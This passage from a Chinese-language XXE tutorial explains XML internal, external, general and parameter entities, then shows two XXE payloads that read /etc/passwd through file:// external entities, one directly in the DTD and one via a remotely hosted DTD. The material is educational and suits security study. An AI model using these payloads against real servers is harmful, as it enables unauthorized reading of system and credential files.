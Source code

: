 - 内部实体：
- 外部实体：

内部和外部实体中，又有一般实体和参数实体

- 一般实体： 引用方式：&实体名；
- 参数实体： 引用方式：%实体名；

注意参数实体只能在DTD中申明，DTD中引用；

```
<!DOCTYPE message [
    <!ENTITY normal    "hello">     <!-- 内部一般实体 -->
    <!ENTITY % normal2 "hello">     <!-- 内部参数实体 -->
    <!ENTITY normal3 SYSTEM "http://xml.org/hhh.dtd">    <!-- 外部一般实体 -->
    <!ENTITY % normal4 SYSTEM "file:///1234.dtd">        <!-- 外部参数实体 -->
    %normal4;            <!-- 引用参数实体 -->
]>
<message>&normal;</message>    <!-- 引用参数实体 -->
```

参数实体还能嵌套定义，但需要注意的是，内层的定义的参数实体% 需要进行HTML实体编码，否则会出现解析错误。

```
<!DOCTYPE test [
    <!ENTITY % outside '<!ENTITY % files SYSTEM "file:///etc/passwd">'>
]>
<message>&files;</message>
```

## 2. XXE原理

XXE即XML外部实体注入 。和sql注入一样，进行xml修改成恶意代码后，xml解析器解析了恶意代码造成XXE。

### 2.1 利用方式

#### 方式一： 直接通过DTD外部实体声明

```
<?xml version="1.0"?>
<!DOCTYPE a[
    <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<a>&b;</a>
```

#### 方式二：通过DTD文档引入外部DTD文档中的外部实体声明

```
<?xml version="1.0"?>
    <!DOCTYPE Quan SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">

<hhh>&f;<hhh>

#DTD文件内容：
<!ENTITY f SYSTEM "file:///etc/passwd">
```
